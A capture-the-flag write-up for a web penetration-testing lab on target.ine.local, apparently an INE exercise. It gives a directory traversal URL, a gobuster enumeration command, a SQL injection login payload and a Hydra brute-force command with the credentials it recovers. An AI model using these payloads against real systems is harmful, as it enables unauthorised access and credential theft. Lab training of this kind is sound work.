 ## Web Application Penetration Testing CTF 1


### Flag 1: Sometimes, important files are hidden in plain sight. Check the root ('/') directory for a file named 'flag.txt' that might hold the key to the first flag.

Following the hint, this flag is quite straightforward.
We can use directory traversal to read the file flag.txt and retrieve the initial flag.
```
http://target.ine.local/view_file?file=../../flag.txt
```

### Flag 2: Explore the structure of the server's directories. Enumeration might reveal hidden treasures.

Enumerating web directory, we find one that might be interesting.
```
gobuster dir -u target.ine.local -w /usr/share/wordlists/dirb/common.txt 
```
```
/secured (Status: 308) [Size: 251] [--> http://target.ine.local/secured/]
```
Inside the folder we found the second flag.
```
http://target.ine.local/secured/flag.txt
```

### Flag 3: The login form seems a bit weak. Trying out different combinations might just reveal the next flag.

We accidentally discovered the fourth flag using an SQL injection.
```
username: ' OR 1=1;--
password: a
```
We can try to use Hydra.
After some research we find out the correct syntax to brute-force the login page.
```
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt  -P /root/Desktop/wordlists/100-common-passwords.txt target.ine.local http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"
```
Finding the credential.
```
guest:butterlfy1
```
Upon logging in, we discovered the third flag.


### Flag 4: The login form behaves oddly with unexpected inputs. Think of injection techniques to access the 'admin' account and find the flag.

Already found.
